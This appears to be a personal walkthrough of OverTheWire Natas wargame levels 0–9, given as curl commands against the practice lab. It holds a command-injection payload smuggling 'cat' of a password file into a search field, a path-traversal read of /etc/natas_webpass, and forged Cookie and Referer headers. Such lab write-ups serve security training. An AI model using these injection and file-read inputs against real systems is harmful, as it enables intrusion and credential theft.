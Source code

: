 # OverTheWire Natas – Walkthrough

Dates indicate when each level was solved.  

---

## Level 0
**Date:** 21/08/2025  

```bash
curl -u natas0:natas0 http://natas0.natas.labs.overthewire.org
````
Password located in a comment within the source code.

---

## Level 1
**Date:** 21/08/2025  

```bash
curl -u natas1:<natas1_password> http://natas0.natas.labs.overthewire.org
````
Password located in a comment within the source code.

---

## Level 2
**Date:** 21/08/2025  

```bash
curl -u natas2:<natas2_password> http://natas2.natas.labs.overthewire.org/files/users.txt
````

---

## Level 3
**Date:** 21/08/2025  

```bash
curl -u natas3:<natas3_password> http://natas3.natas.labs.overthewire.org/robots.txt
curl -u natas3:<natas3_password> http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt
````

---

## Level 4
**Date:** 21/08/2025  

```bash
curl -v -u natas4:<natas4_password> -H "Referer: http://natas5.natas.labs.overthewire.org/" http://natas4.natas.labs.overthewire.org/index.php
````

---

## Level 5
**Date:** 21/08/2025  

```bash
curl -u natas5:<natas5_password> -H "Cookie: loggedin=1" http://natas5.natas.labs.overthewire.org/
````

---

## Level 6
**Date:** 21/08/2025  

```bash
curl -u natas6:<natas6_password>  http://natas6.natas.labs.overthewire.org/includes/secret.inc
curl -u natas6:<natas6_password>  -d "secret=FOEIUWGHFEEUHOFUOIU&submit=submit" http://natas6.natas.labs.overthewire.org/index.php
````

---

## Level 7
**Date:** 21/08/2025  

```bash
curl -u natas7:<natas7_password>  http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
````

---

## Level 8
**Date:** 21/08/2025  

```bash
SECRET=$(curl -u natas8:<natas8_secret>  http://natas8.natas.labs.overthewire.org/index-source.html | html2text |grep '^$encodedSecret' | sed -E 's/.*"([^"]+)".*/\1/' | xxd -p -r | rev | base64 -d

curl -u natas8:<natas8_secret> -d "secret=$SECRET&submit=submit" http://natas8.natas.labs.overthewire.org | grep password

````
## Level 9
**Date:** 21/08/2025  

```bash
curl -u natas9:<natas9_password> "http://natas9.natas.labs.overthewire.org/?needle=test%3B+cat+%2Fetc%2Fnatas_webpass%2Fnatas10&submit=Search" | head -n 25

````